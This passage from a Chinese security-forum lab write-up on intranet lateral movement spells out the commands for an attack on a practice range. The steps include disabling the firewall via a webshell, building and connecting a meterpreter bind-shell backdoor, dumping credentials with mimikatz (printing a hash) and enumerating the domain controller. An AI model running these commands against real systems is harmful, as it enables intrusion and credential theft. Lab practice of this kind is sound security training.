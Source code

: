![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_RKWANRRCX9RTR7W.png)  
连接小马，当前权限为system:  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_R33T3V9TZPRHTS9.png)



利用Net start、tasklist、netstat -ano等相关命令进行信息收集，得知windows Firewall打开，执行NetSh
Advfirewall set allprofiles state off命令关闭防火墙。  
接着用msf生成bind后门：msfvenom -p windows/meterpreter/bind_tcp lport=13777 -f exe -o
hb.exe，用antsword文件上传bind.exe，并执行：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_F988C99DRJT97MU.png)



Msf执行相应命令进行连接：  
use exploit/multi/handler  
set payload windows/meterpreter/bind_tcp  
set RHOST 10.10.1.130  
set lport 13777  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_R9RASVX8FYX4BYW.png)  
查看当前主机存在哪些网段run get_local_subnets:  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_8TVXF39CYHBT8Q7.png)  
Migrate 迁移进程后，load kiwi加载mimiatz，kiwi_cmd
sekurlsa::logonpasswords尝试使用其获取hash：357bec0ee1f524c62ba536fcd3f74472  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_XXJMF4T78PEAU72.png)  
执行sysinfo，可见该主机存在域中：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_8TSH9A28GRMWDB9.png)  
使用net time定位域控：  
Chcp 65001设置乱码  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_6VNDH2KJTJCMRNS.png)  
使用msf自带模块定位域控run post/windows/gather/enum_domain，得到域控ip：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_5KMBRP8X68XTGRB.png)  
使用msf自带模块判断该主机是否有域管登录过，run post/windows/gather/enum_logged_on_users：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ZX4WMXPJEM9U33T.png)  
还有其他相关msf自带得收集信息模块：run post/windows/gather/enum_ad_groups，  
run post/windows/gather/enum_domain_tokens


